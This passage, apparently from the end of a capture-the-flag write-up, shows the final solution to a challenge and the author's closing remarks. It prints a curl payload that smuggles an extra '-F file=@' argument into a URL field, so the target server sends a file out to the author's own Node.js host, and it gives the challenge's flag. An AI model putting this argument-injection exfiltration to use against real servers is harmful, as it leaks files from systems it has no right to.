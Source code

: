 Thus, this is the final command with the payload I use to send to the server.

```bash
curl -F url="-F file=@hopes_and_dreams <public hostname of nodejs server>" <ip address of server>
```

>Running the command gives us the flag here `umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}`
{: .prompt-tip} 

![](assets/img/image12.png)

## Closing

For this challenge, I think this is quite easy if you know some knowledge of using terminal/command line. You would instantly recognize what you can do here and exploit it. But, what makes it hard is that the person has to setup their own server to receive the script. And I am proud to say this is my first CTF challenge that I've been able to submit the flag. Thank you everyone and I'll see you in the next one.